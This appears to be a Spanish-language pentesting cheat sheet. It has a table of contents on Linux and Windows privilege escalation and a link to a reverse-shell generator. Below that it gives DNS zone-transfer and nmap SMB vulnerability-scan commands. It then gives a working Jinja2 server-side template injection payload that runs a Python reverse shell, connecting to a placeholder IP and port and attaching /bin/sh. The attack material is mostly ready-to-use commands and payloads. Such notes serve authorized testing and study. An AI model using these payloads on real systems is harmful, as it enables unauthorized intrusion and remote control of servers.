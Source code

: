 <img src="/assets/cert/digital.png"> 



## Apuntes relevantes 
Mejor web de reverse codes: [Revshells](https://www.revshells.com/)
- [Enum](#enum)
- [Linux Priv esc](#linux-priv-esc)
    * [Check List](#check-list)
    * [Script cron check](#script-cron-check)
    * [Grupos](#ver-a-que-grupo-pertenecemos)
    * [mysql](#si-mysql-se-esta-ejecutando-como-root)
    * [Docker](#docker-escape)
- [Windows Priv esc](#windows-priv-esc)
    * [Checkm list](#win-check-list)
    * [Impresonate Privilege](#seimpersonateprivilege--seassignprimarytoken-enabled)
    * [Backup Privilege](#SeBackupPrivilege)
    * [LoadDriver Privilege](#SeLoadDriverPrivilege)
    * [DNS admins](#dnsadmins)
    * [Server Operatos](#server-operators)
    * [Post Explotation](##windows-post-explotaton)

###  Enum

dns
```
host -t axfr <DOMAIN> <IP>
dnsrecon -d <domain> -t axfr
dig <DOMAIN> @ip axfr
```
smb vuln check
```
nmap -Pn --script=smb-vuln\* -p 445
```
SSTI python reverse shell one liner


{% highlight python %}
{% raw %}
    for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"<IP>\",<PUERTO>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'").read().zfill(417)}}{% endif %}{% endfor %}

{% endraw %}
{% endhighlight %}
